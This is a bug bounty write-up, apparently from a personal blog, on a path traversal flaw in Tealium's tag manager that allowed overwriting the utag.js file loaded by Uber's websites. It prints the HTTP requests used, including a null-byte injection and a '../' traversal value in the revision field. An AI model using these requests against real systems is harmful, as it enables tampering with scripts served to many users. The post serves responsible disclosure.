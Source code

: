 title: "[BBP系列三] Hijack the JS File of Uber's Website"
date: 2018-12-03 13:11:08
tags: ["安全", "BBP"]
---

Again, sorry for my poor English first of all, and I will try my best to describe this bug bounty report throughly.

### TLDR
1. Almost all of Uber's websites are loading JS file: https://tags.tiqcdn.com/utag/uber/main/prod/utag.js 
2. I found that the content of utag.js is updating from `/data/utui/data/accounts/uber/templates/main/utag.js` when deploying in my.tealiumiq.com. 
3. my.tealiumiq.com has a path traversal issue, which allow hacker to change `utag.js` of other account, including Uber's.
4. This bug had beed fixed 8 months ago. Bug Bounty: $6000.

### My Steps

I like asking myself some questions when hunting for bug bounty. Looking around about `https://tags.tiqcdn.com/utag/uber/main/prod/utag.js`, I found Uber's websites were using a third party service offered by `Tealium`. I asked myself: can I modify the content of `utag.js`? How?

I registered two account and began my journey. WARNING: DO NOT TEST IN PRODUCTION USING TARGET ACCOUNT.

![](https://ws1.sinaimg.cn/large/7184df6bgy1fxtifofrypj20gh0bq0tw.jpg)

* Post `/urest/legacy/saveTemplate` with `profile=main%00` to get the path in server

```http
POST /urest/legacy/saveTemplate?utk=044925f62222711fdfec11dc6a4e7160e053d31e1a7f4774e8 HTTP/1.1
Host: my.tealiumiq.com
<redated>

account=evilaccount&profile=main%00&type=profile&template=profile.loader&code=%2F%2F+console.log(1)%3B%0A%0Aconsole.log(1)%3B
```

Response
```json
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/utag.js"}
```

As you can see, the `utag.loader` template path is `/data/utui/data/accounts/evilaccount/templates/main/utag.js`

* Change the requst body to update the revision.loader

```http
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1

account=evilaccount&profile=main%00&type=revision&template=revision.loader&code=thisisatest&revision=201804081230
```

Response
```json
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/201804081230/utag.js"}
```

As you can see `201804081230` is appearing at the path. After testing, I found that I can insert `../` into this path, which means that I can change utag.js of any account, including Uber's.


```http
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1
...

account=evilaccount&profile=main&type=revision&template=revision.loader&code=thisisatest&revision=201804081230/../../../../<victimaccount>/templates/main
```